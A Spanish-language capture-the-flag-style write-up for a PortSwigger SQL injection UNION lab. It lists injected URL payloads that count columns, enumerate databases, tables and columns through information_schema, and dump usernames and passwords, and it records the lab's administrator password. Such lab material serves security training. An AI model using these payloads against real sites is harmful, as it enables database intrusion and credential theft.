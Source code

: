 # `Lab`: SQL injection UNION attack, retrieving data from other tables

- [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a **SQL injection UNION attack** that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. 

---

### Explicación:

- En este laboratorio ya se acerca a un escenario "real" donde a partir del SQLi debo exfiltrar datos que contengan un `username` y `password`
- Para hacer esto, en realidad ya debo **enumerar** la base de datos o `database schema`, incluyendo `data bases`, `tables`, `columns` y `data`.
- Aquí es donde ya se pueden comenzar a hacer `DIOS - Dump In One Shot` y ese tipo de travesuras.
- A travez de `querys SQL` es como debo manipular las consultas para arrojar la información que yo necesite para enumerar la `database`.
- En caso que haya `WAF - Web Application Firewall` las querys se deben manipular con diferentes tecnicas de `ofuscation`, `encoding`, etc. para lograr hacer `bypass` de ese `WAF`. _(En este laboratiorio no hay WAF)_ 

#### Query original:

````sql

````

#### Query inyectada:

````sql

````

---

### Explicación con Lab:

1.

````sql

````
````py

````



## Solución:

````py
# Original
https://666.web-security-academy.net/filter?category=Accessories

# Vulnerabilidad
https://666.web-security-academy.net/filter?category=Accessories' 

# Sanar el Query
https://666.web-security-academy.net/filter?category=Accessories' -- -

# Contando Columnas en la tabla que estoy (total = 2)
https:/666.web-security-academy.net/filter?category=Accessories' ORDER BY 2 -- -

# NOT WORKING!!! Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT 1,2 -- -

# Working!!! Invisible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT null,null -- -
# Working!!! Visible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1','2' -- -

### DUMP: schema, tables, columns

    # OJO!!! `Depende el lado de la inyección irá el "UNION SELECT <--> schema_name"`

# Enum Databases:

## Opt1 - Dump: schema_name = DBs 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',schema_name FROM information_schema.schemata -- -
## Opt2 - Dump: schema_name = DBs
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT schema_name,'2' FROM information_schema.schemata -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = DB = 1. pg_catalog]
    ### [DUMP = DB = 2. public]

# Enum Tables:

## Opt1 - Dump: table_name = Tables (TODAS)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT  '1',table_name FROM information_schema.tables -- -
## Opt2 - Dump: table_name = Tables (TODAS)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,'2' FROM information_schema.tables -- -
## Opt3 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
## Opt4 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,'2' FROM information_schema.tables WHERE table_schema = 'public' -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Table = 1. users]
    ### [DUMP = Table = 2. products]

# Enum Columns:

## Opt1 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' -- -
## Opt4 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT column_name,'2' FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Columns = 1. password]
    ### [DUMP = Columns = 1. username]

# Dump Data:

    # Nota GROUP_CONCAT: Casualmente `' UNION SELECT group_concat(username,password),'2' FROM users -- -` da error, pero es comúnmente usada. 

## Opt1 - Dump "username" + "password" (usando ambos campos sin GROUP_CONCAT ni CONCAT)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT username,password FROM users -- -
## Opt2 - Dump "username" + "password" (CONCAT)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',concat(username,' ::: ',password) FROM users -- -
## Opt3 - Dump "username" + "password" (CONCAT)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT concat(username,' ::: ',password),'2' FROM users -- -
## Opt4 - Dump "username" + "password" (*STRING COCATENATION - Port Swigger cheatsheet - ||' ::: '||)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT username||' ::: '||password,'2' FROM users -- -
## Opt5 - Dump "username" + "password" (*STRING COCATENATION - Port Swigger cheatsheet - ||' ::: '||)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT concat(username,' ::: ',password),'2' FROM users -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Data = administrator ::: nmk1ybvk6howbpsnvcnv]


````










